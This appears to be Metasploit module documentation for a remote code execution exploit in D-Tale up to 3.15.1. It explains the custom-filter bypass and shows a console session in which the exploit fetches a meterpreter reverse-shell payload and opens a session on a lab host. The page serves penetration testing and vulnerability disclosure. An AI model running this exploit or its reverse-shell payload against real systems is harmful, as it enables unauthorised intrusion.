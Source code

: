 ## Vulnerable Application

This exploit effectively serves as a bypass for CVE-2024-3408.
An attacker can override global state to enable custom filters, which then facilitates remote code execution.
Specifically, this vulnerability leverages the ability to manipulate global application settings
to activate the enable_custom_filters feature, typically restricted to trusted environments.
Once enabled, the /test-filter endpoint of the Custom Filters functionality can be exploited to execute arbitrary system commands.

The vulnerability affects:

    * D-Tale <= 3.15.1

This module was successfully tested on:

    * D-Tale 3.15.1 installed on Ubuntu 24.04
    * D-Tale 3.12.0 installed on Ubuntu 22.04
    * D-Tale 3.10.0 installed on Ubuntu 22.04
    * D-Tale 3.0.0 installed on Ubuntu 22.04
    * D-Tale 2.5.1 installed on Ubuntu 22.04
    * D-Tale 2.4.0 installed on Ubuntu 22.04


### Installation

1. `pip install 'dtale==3.15.1'`

2. `dtale --host 0.0.0.0`


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/dtale_rce_cve_2025_0655`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options


## Scenarios
```
msf6 > use exploit/linux/http/dtale_rce_cve_2025_0655
[*] Using configured payload cmd/linux/http/x64/meterpreter_reverse_tcp
msf6 exploit(linux/http/dtale_rce_cve_2025_0655) > options

Module options (exploit/linux/http/dtale_rce_cve_2025_0655):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    40000            yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FETCH_COMMAND   CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE    false            yes       Attempt to delete the binary after execution
   FETCH_FILELESS  true             yes       Attempt to run payload without touching disk, Linux ≥3.17 only
   FETCH_SRVHOST                    no        Local IP to use for serving payload
   FETCH_SRVPORT   8080             yes       Local port to use for serving payload
   FETCH_URIPATH                    no        Local URI to use for serving payload
   LHOST                            yes       The listen address (an interface may be specified)
   LPORT           4444             yes       The listen port


   When FETCH_FILELESS is false:

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_FILENAME      vxItPQvVMkW      no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/dtale_rce_cve_2025_0655) > run lhost=192.168.56.1 rhost=192.168.56.17
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 3.15.1 detected.
[*] Use data_id: 1
[*] Updated the enable_custom_filters to true.
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.17:34796) at 2025-03-01 11:37:14 +0900
[*] Successfully executed the payload.
[*] Successfully cleaned up data_id: 1

meterpreter > getuid
Server username: ubu
meterpreter > sysinfo
Computer     : 192.168.56.17
OS           : Ubuntu 22.04 (Linux 6.8.0-52-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
